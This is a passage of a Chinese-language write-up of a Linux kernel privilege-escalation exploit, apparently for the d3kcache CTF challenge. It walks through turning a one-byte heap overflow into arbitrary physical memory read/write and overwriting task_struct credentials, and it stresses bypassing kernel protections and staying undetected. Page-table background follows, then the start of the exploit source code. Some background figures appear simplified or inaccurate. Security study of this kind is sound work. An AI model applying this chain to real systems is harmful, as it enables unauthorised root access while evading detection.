    phys_mem_write(task_page, 0, task_copy, 0xf00);
}
```

**生效机制**：物理内存修改立即可见于所有虚拟映射。当前进程上下文、内核调度器、系统调用路径等组件同步感知更新，实现"写时生效"的无缝切换。


```mermaid
flowchart TD
    A[物理内存操作] --> B[读取task_struct物理页];
    B --> C[本地替换cred/nsproxy指针];
    C --> D[整页写回物理内存];
    D --> E[所有虚拟映射即时同步];

    E --> F[当前进程上下文];
    E --> G[内核调度器状态];
    E --> H[系统调用路径];

    F --> I[继承完整权能];
    G --> J[识别为特权实体];
    H --> K[通过所有权限检查];

    style A fill:#ffcdd2,stroke:#d32f2f,stroke-width:2px
    style I fill:#c8e6c9,stroke:#388e3c,stroke-width:2px
```

### 2-10. 技术特征分析

本技术链展示了从单字节溢出到物理内存全局操控的完整演进路径，其核心特征体现在多个维度，揭示了微扰动在特定编排下的级联放大效应。

#### 2-10-1. 级联放大效应

单字节溢出经多层次拓扑变换，最终实现物理内存全域操控，体现了微扰动的级联放大能力：

**放大链条**：

1. 1字节溢出 → 污染相邻对象首字节
2. 指针低字节清零 → 建立页面共享
3. 页面共享 → 控制链构建
4. 控制链 → 物理内存原语
5. 物理原语 → 系统上下文重构

**放大因子**：每个阶段将前序能力提升一个数量级，最终实现指数级能力增长。这种放大效应源于内存系统的层次化设计，其中每一层的抽象漏洞可在下层产生放大影响。

#### 2-10-2. 几何确定性操作

与传统堆利用依赖时序竞争不同，本方案基于物理内存几何拓扑，实现确定性操作：


```mermaid
mindmap
  root(几何确定性技术体系)
    (布局确定性)
      --> 物理页面邻接控制
      --> 对象尺寸精确匹配
      --> 交替分配策略
    (拓扑确定性)
      --> 三节点闭环构造
      --> 循环互控关系
      --> 状态可复位性
    (扫描确定性)
      --> vmemmap梯度扫描
      --> 多锚点结构校验
      --> 特征匹配定位
```

**确定性优势**：

- 结果可预测，降低环境依赖性
- 可重复性强，提高技术可靠性
- 成功率高，减少尝试次数
- 时序无关，避免竞争条件

**数学表示**：设成功概率为$$P$$，传统时序竞争方法中$$P$$受系统负载、调度等因素影响，变化范围为$$[0,1]$$。而几何确定性方法中，$$P$$趋近于1，仅受物理布局精度影响：

$$
\lim_{N \to \infty} P_{\text{geo}} = 1, \quad P_{\text{temporal}} \in [0,1]
$$

其中$$N$$为布局尝试次数。

#### 2-10-3. 无代码执行范式

全程不依赖代码执行或控制流劫持，规避所有代码完整性防护机制，代表了一种新的利用范式：

**防护绕行对比**：

| 防护机制     | 传统绕行方式     | 物理层绕行方式   |
| ------------ | ---------------- | ---------------- |
| SMAP/SMEP    | 控制流导向链绕行 | 无用户态指针参与 |
| KASLR        | 指针泄露推算     | 物理扫描直接定位 |
| 控制流完整性 | 合法代码块拼接   | 无控制流操作     |
| 代码签名     | 已有合法代码利用 | 无代码执行需求   |
| 审计监控     | 最小化触发事件   | 无异常事件产生   |
| 影子栈       | 合法返回地址利用 | 无函数返回操作   |

**无代码执行优势**：

- 天然免疫所有控制流完整性防护
- 不触发代码签名验证机制
- 审计日志完全静默，无异常记录
- 无需寻找代码片段，降低环境依赖性
- 可跨越内核版本，提高通用性

**技术本质**：从代码执行转向数据流转，从指令控制转向内存拓扑，代表了利用范式的根本转变。

#### 2-10-4. 物理层穿透特性

操作在物理内存层面进行，绕过虚拟层所有隔离和检查机制，揭示了内存安全体系的多层次依赖关系：

**穿透路径分析**：

1. **虚拟地址校验**：直接操作物理地址，绕行所有虚拟地址有效性检查
2. **权限检查**：在物理层修改数据结构，所有基于虚拟地址的权限检查全部跳过
3. **隔离边界**：物理内存无硬件强制隔离，可跨安全域访问任意区域
4. **缺页异常**：直接访问已映射物理页，不触发缺页处理流程
5. **内存类型检查**：物理访问不受内存类型限制，可读写任意属性页面

**安全模型分析**：传统系统安全基于分层防御模型，每层提供独立保护。本技术链揭示了这些层次间的依赖关系，系统整体安全性可建模为各层防护有效性的乘积：

$$
S_{system} = P_{virtual} \times P_{physical} \times P_{temporal} \times P_{spatial}
$$

其中：

- $$P_{virtual}$$：虚拟层防护有效性
- $$P_{physical}$$：物理层隔离完整性
- $$P_{temporal}$$：时序随机性强度
- $$P_{spatial}$$：空间布局随机性

当任一因子存在缺陷时，整体安全性大幅降低。本技术链正是利用物理层隔离的不足，通过确定性的内存布局和拓扑操作，将微扰动放大为系统性控制能力。

#### 2-10-5. 隐蔽生效机制

所有操作在物理层面静默完成，具有极强的隐蔽性和抗检测特性：

**隐蔽特征**：

- **无异常事件**：不触发缺页异常、权限错误、边界检查失败等虚拟层异常事件
- **无代码痕迹**：不引入新代码，不修改现有代码，不留下执行痕迹
- **即时生效**：物理内存修改立即可见于所有虚拟映射，无需进程切换或通知机制
- **表象正常**：在系统日志、审计记录中表现为普通管道I/O操作，难以区分
- **无状态残留**：每次操作后恢复初始拓扑状态，不留下持久化修改痕迹

**检测挑战**：
传统安全监控聚焦于虚拟层异常事件和代码执行特征，对物理层静默修改缺乏有效检测手段。现有检测机制主要关注：

1. 控制流异常（CFI违规、ROP链检测）
2. 代码完整性（签名验证、代码篡改）
3. 权限提升（特权操作、凭证修改）
4. 异常事件（缺页、权限错误、边界违规）

而物理层操作完全避开这些检测点，凸显了跨层安全监控的必要性。有效的防御需要整合虚拟层异常检测与物理层一致性验证，建立完整的跨层安全视图。

**防御思路**：

- 物理内存布局随机化，增加邻接预测难度
- 跨层一致性检查，验证虚拟-物理映射关系
- 物理内存访问模式监控，检测异常访问模式
- 内核对象完整性保护，防止原位篡改

### 2-11. 技术总结

本技术链完整展示了从单字节溢出到物理内存全局操控的演进路径：始于`d3kcache_jar`模块的单字节溢出漏洞，通过第一次堆喷（`resize_pipe_buffer(i, 0x1000 * 64)`）实现`kmalloc-4k`页面与漏洞对象的物理相邻布局，使溢出能够污染相邻`pipe_buffer`的`page`指针低字节，建立非对称页面共享；随后通过检测重叠对并释放受害管道，利用第二次堆喷（`resize_pipe_buffer(i, 0x1000 * 4)`）触发`kmalloc-192`分配抢占释放的order-0页，构建一级控制链并泄露内核地址；进一步制造二次重叠并释放二次受害管道，通过第三次堆喷（`resize_pipe_buffer(i, 0x1000 * 2)`）触发`kmalloc-96`分配，在单物理页内构建三节点闭环拓扑，实现任意物理内存读写原语；最后通过`vmemmap`梯度扫描和`task_struct`多锚校验定位关键对象，在物理页帧层面原位替换指针完成权限上下文重构。全链以几何确定性取代概率博弈，以物理操作消解代码防护，证明了微扰动在不同编排下可呈指数级差异——虚拟层止于指针泄露与控制流导向，物理层则达全域内存编排，共同揭示内存安全不仅需虚拟壁垒，更需物理层一致防护。

## 3. 内核页表结构分析

### 3-1. 四级页表体系概述

#### 3-1-1. 页表设计背景与演进

Linux内核四级页表体系是现代64位架构下的标准内存管理设计，其演进体现了计算架构发展的必然需求。从早期的二级页表到当前的四级结构，每一次扩展都是为了适应日益增长的物理内存容量和复杂的虚拟地址空间管理需求。

**历史演进路径**：

1. **二级页表（32位时代）**：支持4GB地址空间，页目录+页表结构
2. **三级页表（早期64位）**：引入页中间目录，支持更大地址空间
3. **四级页表（现代64位）**：增加页上层目录，支持完整的48位地址空间
4. **五级页表（未来扩展）**：为57位地址空间预留的扩展架构

**设计驱动因素**：

- 物理内存容量指数增长（GB→TB→PB级）
- 虚拟地址空间需求扩展
- 安全隔离要求的精细化
- 大页支持的性能优化
- 硬件虚拟化技术的集成需求


```mermaid
timeline
    title Linux页表结构演进
    section 32位时代
        1995-2004 : 二级页表(PGD+PTE)
        : 支持4GB地址空间
    section 早期64位
        2004-2014 : 三级页表(PGD+PUD+PTE)
        : 支持48位地址空间
    section 现代64位
        2014-至今 : 四级页表(PGD+PUD+PMD+PTE)
        : 完整48位地址管理
    section 未来扩展
        2020+ : 五级页表(P4D引入)
        : 支持57位地址空间
```

#### 3-1-2. 四级页表架构原理

四级页表采用分层树状结构，将虚拟地址转换过程分解为多个独立查找阶段。这种设计的核心优势在于平衡了查找效率与内存消耗之间的关系。

**分层转换原理**：
每个转换层级将虚拟地址的一个位段映射到下一级表的物理地址，通过多级间接引用最终定位到目标物理页。设虚拟地址$$V$$，物理地址$$P$$，转换函数$$T$$满足：

$$
P = T(V) = T_4(T_3(T_2(T_1(V))))
$$

其中$$T_1$$到$$T_4$$分别对应PGD、PUD、PMD、PTE四级查找。

**空间-时间权衡**：

- **空间效率**：通过稀疏存储仅维护实际使用的页表区域
- **时间效率**：利用TLB缓存热点转换，降低查找延迟
- **灵活性**：支持动态页表分配与释放，适应内存使用变化

**架构特性**：

- 每级表大小固定为4KB（512个8字节条目）
- 索引宽度9位，每级覆盖$$2^9=512$$个条目
- 最终形成$$512^4=2^{36}$$个潜在页表条目
- 实际使用时动态分配，避免内存浪费

### 3-2. 地址转换机制详解

#### 3-2-1. 虚拟地址位段解析

x86_64架构采用规范的48位虚拟地址空间，四级页表将其精确划分为五个功能位段：

```c
#define PTE_OFFSET 12    // 页内偏移起始位
#define PMD_OFFSET 21    // 页中间目录起始位
#define PUD_OFFSET 30    // 页上层目录起始位
#define PGD_OFFSET 39    // 页全局目录起始位

#define PT_ENTRY_MASK 0b111111111UL  // 9位掩码
```

**位段功能分配**：

| 位段范围 | 宽度 | 功能     | 索引容量 | 覆盖空间    |
| -------- | ---- | -------- | -------- | ----------- |
| [11:0]   | 12位 | 页内偏移 | -        | 4KB页内寻址 |
| [20:12]  | 9位  | PTE索引  | 512项    | 2MB区域     |
| [29:21]  | 9位  | PMD索引  | 512项    | 1GB区域     |
| [38:30]  | 9位  | PUD索引  | 512项    | 512GB区域   |
| [47:39]  | 9位  | PGD索引  | 512项    | 256TB区域   |

**数学表示**：
设虚拟地址$$V$$，各级索引计算为：

$$
\begin{aligned}
I_{PGD} &= \lfloor V / 2^{39} \rfloor \bmod 512 \\
I_{PUD} &= \lfloor V / 2^{30} \rfloor \bmod 512 \\
I_{PMD} &= \lfloor V / 2^{21} \rfloor \bmod 512 \\
I_{PTE} &= \lfloor V / 2^{12} \rfloor \bmod 512 \\
O_{page} &= V \bmod 2^{12}
\end{aligned}
$$

其中$$O_{page}$$为4KB页内偏移。

#### 3-2-2. 转换流程实现

硬件内存管理单元（MMU）执行四级页表查找的完整流程涉及多个协同组件：

**转换组件交互**：


```mermaid
sequenceDiagram
    participant CPU as CPU核心
    participant MMU as 内存管理单元
    participant TLB as 转换后备缓冲
    participant Cache as 缓存层次
    participant Memory as 物理内存

    CPU->>MMU: 发出虚拟地址访问
    MMU->>TLB: 查询缓存转换
    alt TLB命中
        TLB-->>MMU: 返回物理地址
    else TLB未命中
        MMU->>Memory: 读取CR3寄存器
        MMU->>Memory: 查找PGD条目
        MMU->>Memory: 查找PUD条目
        MMU->>Memory: 查找PMD条目
        MMU->>Memory: 查找PTE条目
        Memory-->>MMU: 返回物理页帧号
        MMU->>TLB: 缓存转换结果
    end
    MMU-->>CPU: 返回物理地址
    CPU->>Cache: 访问缓存数据
    alt 缓存命中
        Cache-->>CPU: 返回数据
    else 缓存未命中
        Cache->>Memory: 读取物理内存
        Memory-->>Cache: 返回数据
        Cache-->>CPU: 返回数据
    end
```

**软件辅助流程**：
当硬件转换失败（缺页异常）时，操作系统介入处理：

```c
// 简化的缺页异常处理流程
void handle_page_fault(uint64_t fault_addr, uint64_t error_code) {
    // 1. 检查访问合法性
    if (!validate_access(fault_addr, error_code)) {
        send_sigsegv(current);  // 发送段错误信号
        return;
    }

    // 2. 分配物理页面
    struct page *page = alloc_page(GFP_KERNEL);
    if (!page) {
        handle_out_of_memory();
        return;
    }

    // 3. 建立页表映射
    int ret = map_page_to_user(current->mm, fault_addr, page);
    if (ret < 0) {
        free_page(page);
        send_sigsegv(current);
        return;
    }

    // 4. 设置页面属性
    set_page_attributes(page, error_code);

    // 5. 刷新TLB
    flush_tlb_page(fault_addr);
}
```

### 3-3. 页表条目格式与权限控制

#### 3-3-1. 页表条目详细格式

每个页表条目（PTE）为64位，其格式设计融合了地址映射与权限控制功能：

```text
63    62     61     60     59     58     57     56     55     54     53     52
+------+------+------+------+------+------+------+------+------+------+------+------+
| 保留 | 保留 | 保留 | 保留 | 保留 | 保留 | 保留 | 保留 | 保留 | 保留 | 保留 | 保留 |
+------+------+------+------+------+------+------+------+------+------+------+------+

51                                      12 11                    0
+---------------------------------------+-----------------------+
|           物理页帧号（PFN）           |        属性标志       |
+---------------------------------------+-----------------------+
```

**属性标志位详解**：

```c
// 标准属性标志定义
#define PAGE_ATTR_PRESENT  (1UL << 0)   // 页面存在于内存
#define PAGE_ATTR_RW       (1UL << 1)   // 读写权限
#define PAGE_ATTR_USER     (1UL << 2)   // 用户可访问
#define PAGE_ATTR_PWT      (1UL << 3)   // 直写缓存
#define PAGE_ATTR_PCD      (1UL << 4)   // 缓存禁用
#define PAGE_ATTR_ACCESSED (1UL << 5)   // 已访问标志
#define PAGE_ATTR_DIRTY    (1UL << 6)   // 脏页标志
#define PAGE_ATTR_PS       (1UL << 7)   // 页大小标志（大页）
#define PAGE_ATTR_GLOBAL   (1UL << 8)   // 全局页面
#define PAGE_ATTR_NX       (1UL << 63)  // 禁止执行
```

**标志位功能矩阵**：

| 标志位   | 名称     | 硬件行为         | 软件作用       | 安全意义       |
| -------- | -------- | ---------------- | -------------- | -------------- |
| Present  | 存在位   | 为0触发缺页异常  | 页面换入换出   | 内存压力管理   |
| R/W      | 读写位   | 控制存储访问类型 | 实现写时复制   | 数据完整性保护 |
| U/S      | 用户位   | 区分访问权限级   | 用户-内核隔离  | 特权级分离     |
| PWT      | 直写位   | 控制缓存策略     | 设备映射优化   | 一致性保证     |
| PCD      | 缓存位   | 启用/禁用缓存    | 内存映射IO     | 访问顺序性     |
| Accessed | 访问位   | 自动置位         | 页面活跃度统计 | 工作集分析     |
| Dirty    | 脏位     | 写时自动置位     | 页面回写决策   | 数据持久性     |
| PS       | 页大小   | 启用大页映射     | 减少TLB压力    | 性能优化       |
| Global   | 全局位   | TLB不刷新        | 内核映射优化   | 上下文切换优化 |
| NX       | 不可执行 | 阻止指令获取     | 数据执行保护   | 代码注入防御   |

#### 3-3-2. 权限控制模型

四级页表实现了精细化的访问权限控制，形成多层防护体系：

**权限检查层次模型**：


```mermaid
graph TB
    A[内存访问请求] --> B{CPU特权级检查};
    B -->|通过| C[页表权限检查];
    C --> D[用户/内核位验证];
    D --> E[读写权限验证];
    E --> F[执行权限验证];
    F --> G[访问控制列表];
    G --> H[完整性验证];
    H --> I[访问批准];

    B -->|失败| J[通用保护异常];
    D -->|失败| K[段错误];
    E -->|失败| L[保护错误];
    F -->|失败| M[执行禁止];

    style I fill:#c8e6c9,stroke:#388e3c
    style J fill:#ffcdd2,stroke:#d32f2f
```

**权限组合策略**：

```c
// 内存区域权限配置示例
struct memory_policy {
    uint64_t vaddr_start;
    uint64_t vaddr_end;
    struct {
        bool readable    : 1;
        bool writable    : 1;
        bool executable  : 1;
        bool user_access : 1;
        bool kernel_only : 1;
        bool shared      : 1;
        bool reserved    : 2;
    } attributes;
};

// 典型权限配置
const struct memory_policy kernel_code_policy = {
    .vaddr_start = KERNEL_CODE_START,
    .vaddr_end   = KERNEL_CODE_END,
    .attributes  = {
        .readable    = 1,  // 可读
        .writable    = 0,  // 不可写
        .executable  = 1,  // 可执行
        .user_access = 0,  // 仅内核
        .kernel_only = 1,
        .shared      = 0,
    }
};

const struct memory_policy user_stack_policy = {
    .vaddr_start = USER_STACK_START,
    .vaddr_end   = USER_STACK_END,
    .attributes  = {
        .readable    = 1,  // 可读
        .writable    = 1,  // 可写
        .executable  = 0,  // 不可执行
        .user_access = 1,  // 用户可访问
        .kernel_only = 0,
        .shared      = 0,
    }
};
```

### 3-4. 内核地址空间管理

#### 3-4-1. 地址空间布局规范

x86_64架构采用规范地址格式（Canonical Form Address），确保地址有效性检查的高效性：

**规范地址定义**：
虚拟地址的高16位（位[63:48]）必须与第47位相同，即：

- 用户空间：高16位全0
- 内核空间：高16位全1

数学表示为：

$$
V_{\text{canonical}} =
\begin{cases}
V \land 0x0000FFFFFFFFFFFF, & \text{如果 } V[47] = 0 \\
V \lor 0xFFFF000000000000, & \text{如果 } V[47] = 1
\end{cases}
$$

**内核空间详细布局**：


```mermaid
graph LR
    A[128TB内核空间] --> B[直接映射区];
    A --> C[vmap区域];
    A --> D[持久内核映射];
    A --> E[固定映射];
    A --> F[模块区域];
    A --> G[其他特殊区域];

    B --> B1[线性映射物理内存];
    C --> C1[动态虚拟映射];
    D --> D1[高端内存映射];
    E --> E1[特殊用途固定映射];
    F --> F1[内核模块加载];

    subgraph "直接映射区详细布局"
        B1 --> B2[物理内存0-4GB];
        B1 --> B3[物理内存4GB-1TB];
        B1 --> B4[物理内存>1TB];
    end

    style A fill:#e8f4fd,stroke:#1976d2,stroke-width:2px
    style B fill:#bbdefb,stroke:#1976d2
```

**各区域功能详解**：

| 区域名称   | 起始地址           | 大小 | 用途                 | 映射特性             |
| ---------- | ------------------ | ---- | -------------------- | -------------------- |
| 直接映射区 | 0xFFFF888000000000 | 64TB | 线性映射所有物理内存 | 1:1映射，RW，NX      |
| vmalloc区  | 0xFFFFC90000000000 | 32TB | 动态虚拟内存分配     | 稀疏映射，按需分配   |
| 持久映射区 | 0xFFFF888000000000 | 8TB  | 高端内存永久映射     | 固定位置，可重用     |
| 固定映射区 | 0xFFFFF00000000000 | 4TB  | 特殊用途固定映射     | 编译时确定，不可移动 |
| 模块区域   | 0xFFFFFFFFA0000000 | 1GB  | 内核模块加载         | 随机偏移，代码可执行 |

#### 3-4-2. 直接映射区工作机制

直接映射区（Direct Mapping Region）是内核访问物理内存的主要通道，其设计体现了效率与简化原则：

**映射关系建立**：

```c
// 内核初始化时建立直接映射
void init_direct_mapping(void) {
    uint64_t phys_start = 0;
    uint64_t phys_end = max_physical_memory;
    uint64_t virt_start = PAGE_OFFSET;  // 0xFFFF888000000000

    for (uint64_t phys = phys_start; phys < phys_end; phys += PAGE_SIZE) {
        uint64_t virt = phys + virt_start;

        // 建立页表映射
        int ret = map_page_linear(virt, phys,
                                  _PAGE_PRESENT | _PAGE_RW | _PAGE_ACCESSED);
        if (ret < 0) {
            panic("Failed to establish direct mapping");
        }

        // 设置内存属性
        if (phys < 1ULL * 1024 * 1024 * 1024) {  // 前1GB
            set_memory_type(phys, WB);  // 回写缓存
        } else {
            set_memory_type(phys, UC);  // 无缓存（大容量内存）
        }
    }
}
```

**映射特性分析**：

1. **线性性质**：
   设物理地址$$P$$，虚拟地址$$V$$，存在线性函数：
   $$V = P + C \quad (C = \text{PAGE_OFFSET})$$
   其逆映射同样简单：$$P = V - C$$

2. **对齐保持**：
   4KB对齐的物理地址映射为4KB对齐的虚拟地址：
   $$P \equiv 0 \pmod{4096} \Rightarrow V \equiv 0 \pmod{4096}$$

3. **连续性保持**：
   连续的物理区域映射为连续的虚拟区域，支持大块内存操作优化。

4. **权限统一**：
   所有直接映射页面具有相同权限（RW，NX），简化权限管理。

**性能优化**：

```c
// 利用直接映射特性优化内存访问
static inline void *optimized_memcpy(void *dest, const void *src, size_t n) {
    // 检查是否都在直接映射区
    if (in_direct_map(dest) && in_direct_map(src)) {
        // 使用向量化指令加速
        return __memcpy_vec(dest, src, n);
    } else {
        // 回退到通用实现
        return __memcpy_generic(dest, src, n);
    }
}
```

### 3-5. 高级页表特性

#### 3-5-1. 大页支持机制

大页（Huge Page）机制通过减少TLB项数提升内存访问性能，四级页表支持两种大页规格：

**大页配置对比**：

| 特性     | 4KB标准页      | 2MB大页       | 1GB大页       |
| -------- | -------------- | ------------- | ------------- |
| 页表层级 | 4级全部使用    | PMD级大页     | PUD级大页     |
| 索引位数 | 9+9+9+9=36位   | 9+9+9=27位    | 9+9=18位      |
| TLB覆盖  | 4KB/项         | 2MB/项        | 1GB/项        |
| 内存开销 | 较高（多级表） | 中等（3级表） | 较低（2级表） |
| 适用场景 | 通用内存       | 大块数据      | 巨型缓冲区    |

**大页检测与处理**：

```c
// 检查并处理大页映射
int handle_huge_page(uint64_t vaddr, uint64_t paddr, int page_size) {
    if (page_size == PMD_SIZE) {  // 2MB大页
        pmd_t *pmd = pmd_offset(vaddr);
        if (!pmd_none(*pmd)) {
            return -EBUSY;  // 已被映射
        }

        // 设置PMD大页条目
        set_pmd(pmd, pfn_pmd(paddr >> PAGE_SHIFT,
                            __pgprot(_PAGE_PRESENT | _PAGE_RW |
                                    _PAGE_DIRTY | _PAGE_ACCESSED |
                                    _PAGE_PSE)));  // 大页标志

        // 统计信息更新
        atomic_inc(&num_2mb_pages);
        return 0;
    }
    else if (page_size == PUD_SIZE) {  // 1GB大页
        // 类似处理，设置PUD条目
        return handle_1gb_page(vaddr, paddr);
    }

    return -EINVAL;  // 不支持的大小
}
```

#### 3-5-2. 页表隔离技术

为增强安全性，现代系统实现了多种页表隔离技术：

**内核页表隔离（KPTI）**：


```mermaid
graph LR
    subgraph "KPTI启用后"
        A2[用户空间] --> B2[受限内核映射];
        C2[内核空间] --> D2[完整内核映射];
        A2 --> E2[用户-内核切换];
        C2 --> E2;
    end

    subgraph "KPTI启用前"
        A1[用户空间] --> B1[完整内核映射];
        C1[内核空间] --> B1;
    end

    style B1 fill:#ffcdd2,stroke:#d32f2f
    style B2 fill:#c8e6c9,stroke:#388e3c
    style D2 fill:#bbdefb,stroke:#1976d2
```

**实现机制**：

```c
// KPTI切换实现
void switch_to_user_cr3(void) {
    // 切换到用户CR3（仅映射必需的内核部分）
    write_cr3(user_cr3);
    __flush_tlb_all();
}

void switch_to_kernel_cr3(void) {
    // 切换到内核CR3（完整映射）
    write_cr3(kernel_cr3);
    __flush_tlb_all();
}

// 系统调用入口处理
ENTRY(syscall_entry)
    // 保存用户寄存器状态
    SAVE_REGS

    // 切换到内核页表
    movq    PER_CPU_VAR(kernel_cr3), %rax
    movq    %rax, %cr3

    // 执行系统调用
    call    do_syscall

    // 返回用户空间前切换页表
    movq    PER_CPU_VAR(user_cr3), %rax
    movq    %rax, %cr3

    // 恢复并返回
    RESTORE_REGS
    sysretq
END(syscall_entry)
```

### 3-6. 页表与系统安全

#### 3-6-1. 内存保护体系

四级页表构成现代操作系统内存保护的基础，与其他安全机制协同形成纵深防御：

**多层次保护模型**：


```mermaid
graph TB
    A[内存访问请求] --> B[CPU特权级检查];
    B --> C[页表权限验证];
    C --> D[SMAP/SMEP验证];
    D --> E[控制流完整性];
    E --> F[内存加密];
    F --> G[硬件监控];
    G --> H[访问批准];

    B -->|违规| I[#GP异常];
    C -->|违规| J[#PF异常];
    D -->|违规| K[#AC异常];
    E -->|违规| L[#CP异常];

    style H fill:#c8e6c9,stroke:#388e3c
    style I fill:#ffcdd2,stroke:#d32f2f
```

**保护机制集成**：

```c
// 综合内存访问检查
int check_memory_access(struct task_struct *tsk, uint64_t vaddr,
                        int access_type, int data_size) {
    int ret = 0;

    // 1. 页表权限检查
    ret = check_pte_permission(vaddr, access_type);
    if (ret < 0) return ret;

    // 2. SMAP检查（用户指针在内核模式）
    if (access_type & ACCESS_KERNEL) {
        if (vaddr < TASK_SIZE) {  // 用户空间地址
            if (!(access_type & ACCESS_USERPTR)) {
                return -EFAULT;  // SMAP违规
            }
        }
    }

    // 3. SMEP检查（执行权限）
    if (access_type & ACCESS_EXECUTE) {
        pte_t pte = get_pte(vaddr);
        if (pte_user(pte) && (access_type & ACCESS_KERNEL)) {
            return -EFAULT;  // SMEP违规
        }
    }

    // 4. 边界检查
    ret = check_access_boundary(vaddr, data_size);
    if (ret < 0) return ret;

    // 5. 完整性检查
    if (memory_integrity_enabled) {
        ret = verify_page_integrity(vaddr);
        if (ret < 0) return ret;
    }

    return 0;  // 所有检查通过
}
```

#### 3-6-2. 页表完整性保护

为确保页表自身安全，系统实现了多重完整性保护机制：

**页表防护技术**：

| 防护技术   | 保护目标   | 实现机制   | 防护效果     |
| ---------- | ---------- | ---------- | ------------ |
| 写保护位   | 页表只读性 | CR0.WP标志 | 防止意外修改 |
| 保留位校验 | 条目格式   | 硬件验证   | 检测损坏条目 |
| 范围检查   | 地址有效性 | 边界比较   | 防止越界访问 |
| 权限一致性 | 层级间权限 | 遍历验证   | 确保权限传递 |
| 加密保护   | 页表数据   | 内存加密   | 防物理利用   |
| 监控审计   | 修改行为   | 日志记录   | 事后分析     |

**完整性验证算法**：

```c
// 页表完整性验证
int validate_page_table_integrity(pgd_t *pgd) {
    for (int pgd_idx = 0; pgd_idx < PTRS_PER_PGD; pgd_idx++) {
        if (pgd_none(pgd[pgd_idx])) continue;

        // 验证PGD条目格式
        if (!pgd_valid(pgd[pgd_idx])) {
            report_corruption("Invalid PGD entry", pgd_idx);
            return -EINVAL;
        }

        pud_t *pud = pud_offset(&pgd[pgd_idx], 0);
        for (int pud_idx = 0; pud_idx < PTRS_PER_PUD; pud_idx++) {
            if (pud_none(pud[pud_idx])) continue;

            // 验证PUD条目
            if (!pud_valid(pud[pud_idx])) {
                report_corruption("Invalid PUD entry",
                                 (pgd_idx << 9) | pud_idx);
                return -EINVAL;
            }

            // 递归验证下级页表
            int ret = validate_pmd_integrity(pud[pud_idx]);
            if (ret < 0) return ret;
        }
    }
    return 0;  // 完整性验证通过
}
```

#### 3-6-3. 页表监控与审计

实时监控页表状态变化，检测异常访问模式：

**监控指标体系**：

```c
// 页表监控数据结构
struct pt_monitor_stats {
    // 访问统计
    atomic64_t pt_walk_count;      // 页表遍历次数
    atomic64_t tlb_hit_count;      // TLB命中次数
    atomic64_t page_fault_count;   // 缺页异常次数

    // 修改统计
    atomic64_t pte_update_count;   // PTE更新次数
    atomic64_t large_page_count;   // 大页使用计数
    atomic64_t permission_change;  // 权限变更计数

    // 异常检测
    atomic64_t suspicious_access;  // 可疑访问
    atomic64_t permission_violation; // 权限违规
    atomic64_t integrity_violation;  // 完整性违规

    // 性能指标
    u64 avg_walk_latency;          // 平均遍历延迟
    u64 max_walk_latency;          // 最大遍历延迟
    u64 tlb_miss_rate;             // TLB未命中率
};

// 异常检测规则
struct pt_anomaly_rule {
    uint64_t threshold;            // 阈值
    uint64_t time_window;          // 时间窗口
    enum anomaly_type type;        // 异常类型
    void (*handler)(struct pt_monitor_stats *); // 处理函数
};

// 典型异常规则
static struct pt_anomaly_rule default_rules[] = {
    {
        .threshold = 1000,         // 每秒1000次缺页
        .time_window = NSEC_PER_SEC,
        .type = EXCESSIVE_PAGE_FAULT,
        .handler = handle_excessive_faults
    },
    {
        .threshold = 100,          // 每秒100次权限变更
        .time_window = NSEC_PER_SEC,
        .type = FREQUENT_PERM_CHANGE,
        .handler = handle_frequent_perm_changes
    },
    {
        .threshold = 50,           // 每秒50次可疑访问
        .time_window = NSEC_PER_SEC,
        .type = SUSPICIOUS_ACCESS_PATTERN,
        .handler = handle_suspicious_access
    }
};
```

### 3-7. 技术总结

Linux四级页表体系通过PGD、PUD、PMD、PTE分层结构实现虚拟地址到物理地址的高效转换，每级512个条目的设计平衡了查找效率与内存开销。页表条目包含物理页帧号和权限控制标志，通过RW、U/S、NX等位实现精细化的访问控制。直接映射区提供物理内存的线性视图，简化内核访问同时保持性能；内核空间布局采用规范地址格式，确保地址有效性检查的效率。大页支持机制通过减少TLB压力优化性能，页表隔离技术增强系统安全边界。页表与CPU特权级、SMAP/SMEP、控制流完整性等机制协同构成纵深防御体系，通过完整性验证、实时监控和异常检测实现全方位保护。该体系体现了现代内存管理在效率、灵活性与安全性间的精密平衡，为系统稳定运行提供坚实基础，同时为应对新型内存访问模式和安全挑战预留了扩展能力。

## 4. 实战演练

exploit核心代码如下：

```c
//======================================================================
// KERNEL SYMBOLS & EXPLOIT CONFIGURATION
//======================================================================

// Static kernel symbol addresses for the target kernel image
// Used to calculate runtime kernel base from leaked pointers
#define ANON_PIPE_BUF_OPS                           0xffffffff824614b0
#ifdef SECONDARY_STARTUP_64
#undef SECONDARY_STARTUP_64
#endif
#define SECONDARY_STARTUP_64                        0xffffffff81000070

// Exploit behavior tuning - chunk sizing, spray counts, and limits
#define CHUNK_SIZE                                  2048
#define INITIAL_PAGE_SPRAY                          128
#define FINAL_PAGE_SPRAY                            0x10
#define MAX_PIPES                                   0xf0 - 0x70
#define PIPE_BUFFER_SIZE                            0x28

//======================================================================
// GLOBAL EXPLOIT STATE TRACKING
//======================================================================
#define KCACHE_ALLOC 0x114
#define KCACHE_APPEND 0x514
#define KCACHE_READ 0x1919
#define KCACHE_FREE 0x810
int vuln_dev_fd;                                    // File descriptor for the vulnerable device
int debug_enabled = 1;                              // Toggle verbose debug logging

// Live task_struct addressing state during the exploit
size_t current_task_addr;                           // Virtual address of current task_struct
size_t current_task_page_addr;                      // Physical page holding current task_struct
size_t parent_task_addr;                            // Virtual address of parent task_struct

// Active pipe array used for heap shaping and UAF control
int pipe_fds[MAX_PIPES+0x70][2];                    // Pipe file descriptor pairs
size_t pipe_buffer_data[0x1000];                    // Scratch buffer for pipe I/O operations
char overflow_payload[0x1000];                      // Buffer for constructing overflow payloads

// Corruption tracking indices for overlapping objects
int overlap_pipe_idx = -1;                          // Controlling pipe with slab overlap
int victim_pipe_idx = -1;                           // Victim pipe corrupted by overflow
int second_overlap_pipe_idx = -1;                   // Second controlling pipe with slab overlap
int second_victim_pipe_idx = -1;                    // Second victim pipe corrupted by overflow

// Self-referential pipe indices forming the arbitrary R/W chain
int chain_pipe_2_idx = -1;                          // Chain pipe #2 for arb R/W routing
int chain_pipe_3_idx = -1;                          // Chain pipe #3 for arb R/W routing
int chain_pipe_4_idx = -1;                          // Chain pipe #4 for arb R/W routing

// Forged pipe_buffer structures for controlled memory access
struct pipe_buffer fake_pipe_buf = {0};             // Primary fake pipe_buffer for initial control
struct pipe_buffer chain_pipe_buf = {0};            // Secondary fake pipe_buffer for chain setup
struct pipe_buffer read_target_pipe_buf = {0};      // Template pipe_buffer for arbitrary reads
